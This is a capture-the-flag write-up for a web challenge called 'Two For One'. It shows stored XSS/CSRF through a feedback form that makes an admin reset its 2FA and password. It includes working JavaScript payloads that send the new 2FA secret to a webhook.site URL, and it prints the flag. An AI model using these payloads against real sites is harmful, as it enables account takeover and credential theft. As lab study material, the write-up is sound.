







# Two For One

```
Need to keep things secure? Try out our safe, the most secure in the world!
```

## Challenge

> TL;DR: CSRF vulnerability in feedback page, force admin to reset the 2FA and exfiltrate this secret, then force admin to reset password. Login as admin to view the flag using the new 2FA set with your Google authenticator

This challenge makes use of the Google Authenticator to setup a 2FA system. If we try to sign up with the username `admin`, the server would mention that it is already taken. So, let's keep that in mind in case we need to conduct any form of account takeover.



Sign up for an account anyway. Setup the 2FA presented at this stage and click on the button to continue:



Sign into the created account and check the settings page:



Immediately, we see the that the Reset 2FA button does not require a valid 2FA token, nor the existing password. This means that if we could perform CSRF, then we can forcefully reset the 2FA for the victim.

Just below that reset 2FA field, we see a Feedback form with a textfield. The caption says "We would love to know what is on your mind", which is a hint that client-side attack is likely the intended path forward. We attempt to inject a `<script>` tag which will redirect the user to our controlled page, to see if it is successful:

```html
<script>
    document.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017";
</script>
```

Sure enough, we see the incoming request:



Since we can perform CSRF, let's try to reset the 2FA of the visitor, which we are assuming to be the `admin` user. Inject the following into the feedback field:

```html
<!-- Step 1 - CSRF to reset 2FA, steal the new 2FA code -->
<script>
fetch("/reset2fa", {
    method: "POST",
    headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
    }
    }).then(res => {
        if (res.status != 200) {
            window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?status=failed";
        } else {
            res.json().then((json) => {
                window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?jsonUrl=" + json.url;
            });
        }
    });
</script>
```

This code is actually found on the challenge site itself, so we don't have to code it from scratch. Upon a successful `/reset2fa` request, the new 2FA secret is sent in the response. We would then exfiltrate this secret to our controlled domain.



With this new secret, we can setup the 2FA on our Google Authenticator to takeover the 2FA authenticator for the `admin` user. So we set it up, and now we have to reset the `admin` password using the reset function.

To do so, we have to perform another CSRF attack, this time using the following payload (again the code is taken from the challenge site) to change the password to `iWanFlagz`:

```html
<!-- Step 2 - CSRF to reset password using the 2FA generated from our Authenticator -->
<script>
data = {
    "otp": "REPLACE_ME",
    "password": "iWanFlagz",
    "password2": "iWanFlagz"
}

fetch("/reset_password", {
    method: "POST",
    headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
    },
    body: JSON.stringify(data)
    }).then(res => {
    if (res.status != 200) {
        window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?status=failed";
    } else {
        window.location = "https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?status=passwordChanged";
    }
});
</script>
```

We would have to include a valid OTP value this time, so remember to replace it before sending the CSRF payload over. Wait for the request to come in:



Now the password is changed to `iWanFlagz`. We are now able to login as the `admin` user with our 2FA and the new password, and view the flag:



Flag: `flag{96710ea6be916326f96de003c1cc97cb}`
